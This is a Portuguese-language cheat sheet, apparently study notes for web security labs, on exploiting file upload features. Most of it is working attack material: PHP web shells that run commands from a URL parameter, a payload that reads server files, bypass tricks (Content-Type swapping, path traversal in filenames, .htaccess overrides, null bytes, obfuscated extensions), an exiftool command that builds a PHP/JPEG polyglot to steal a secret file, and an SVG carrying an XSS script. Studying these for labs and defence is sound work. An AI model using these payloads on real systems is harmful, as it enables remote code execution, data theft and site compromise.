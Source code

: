 # Vulnerabilidades de Upload de Arquivo

Probabilidade: $${\color{yellow}média}$$.

<br>

Normalmente surge no upload de avatar em `/my-account`.

Arquivo malicioso para ler conteúdo:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Arquivo malicioso com WebShell:
```
<?php echo system($_GET['command']); ?>

GET /example/exploit.php?command=id HTTP/1.1
```

<br>

## Laboratórios

**Web Shell Upload via Content-Type Restriction Bypass**

Upload malicious file and change Content-Type to `image/jpeg`.

<br>
<br

**Web Shell Upload via Path Traversal**

Explore Path Traversal para subir um arquivo para o diretório anterior:
```
filename="..%2fexploit.php"
```

E o acesse em: `GET /files/exploit.php?command=ls`.

<br>
<br>

**Web Shell Upload via Extension Blacklist Bypass**

A extensão `.php` está bloqueada, mas ainda é possível utilizar a extensão `.phar`.

Essa laboratório também ensina como você pode sobescrever o arquivo .htaccess com:
```
AddType application/x-httpd-php .l33t
```

Dessa maneira, ao subir uma extensão .l33t, o servidor interpretá como PHP.

<br>
<br>

**Web Shell Upload via Obfuscated File Extension**

Utilize um null byte para o bypass:
```
rce.php%00.jpg
```

Outros bypasses:
```
exploit.pHp
exploit.php.jpg
exploit.jpg.php
exploit.php.
exploit%2Ephp
exploit.p.phphp

exploit.asp;.jpg
exploit.asp%00.jpg
```

<br>
<br>

**Remote Code Execution via Polyglot Web Shell Upload**

Faça upload de um arquivo poliglota PHP/JPG que é uma imagem com código PHP em seus metadados.
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.jpeg -o polyglot.php
```

<br>

### Outros
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```

